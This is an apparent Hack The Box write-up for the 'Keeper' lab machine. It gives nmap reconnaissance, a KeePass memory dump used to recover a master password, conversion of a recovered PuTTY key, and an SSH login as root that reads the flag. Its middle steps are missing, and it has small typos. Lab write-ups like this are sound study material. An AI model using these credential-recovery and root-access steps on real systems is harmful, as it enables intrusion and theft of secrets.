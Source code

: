 # Keeper

First, let's scan the ip for finding out open ports
```
sudo nmap -sS --min-rate 5000 --open -Pn -n -vvv -p- 10.10.11.227 -oG allPorts
```
> Store this output information in a file named [*allPorts*](./nmap/allPorts), it's a good practice !


The scanning output shows that there's 2 open ports : `22` and `80`. Let's get more details
```
nmap -sC -sV -p20,80 10.10.11.227 -oN targeted
```
> Same, we save this information in a file named [*targeted*](./nmap/targeted) !


In the ouptut a domain name appeared : `keeper.htb`, let's add it to the `/etc/hosts`
```
10.10.11.227    keeper.htb
```

The SSH version is greater than `7.9`, so it's not (for now) vulnerable... let's check the web page (port 80)
```
whatweb http://keeper.htb
```

The output does not show something interessting... Checking the website there's a link to a subdomain : `tickets.keeper.htb` ! Let's add it to the `/etc/hosts`
```
10.10.11.227    keeper.htb      tickets.keeper.htb
```

Checking the website, we find a login page ! 









```
2024-02-05 20:18:53,849 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

We can a text like: `XXdgrXd med flXde`
> X : a letter that is unknow for now

Let's google this and we find this
```
Rødgrød med flød
```

```
puttygen ssh_key.txt -O private-openssh -o htb.pem

[21:00:15 05/02] napoknot21@qwerty [.../machines/Keeper/content] on  main [?⇡]
❯ ls
󰌆 htb.pem   KeePassDumpFull.dmp   passcodes.kdbx   passwd   RT30000.zip   ssh_key.txt

[21:00:17 05/02] napoknot21@qwerty [.../machines/Keeper/content] on  main [?⇡]
❯ chmod 600 htb.pem
error: Error when renaming history file: Invalid cross-device link

[21:00:26 05/02] napoknot21@qwerty [.../machines/Keeper/content] on  main [?⇡]
❯ ssh -i htb.pem root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Mon Feb  5 20:53:48 2024 from 10.10.14.226
root@keeper:~# ls
root.txt  RT30000.zip  SQL
root@keeper:~# cat root.txt
79a9eca29f5c989738b5072058be1e19
root@keeper:~#
```

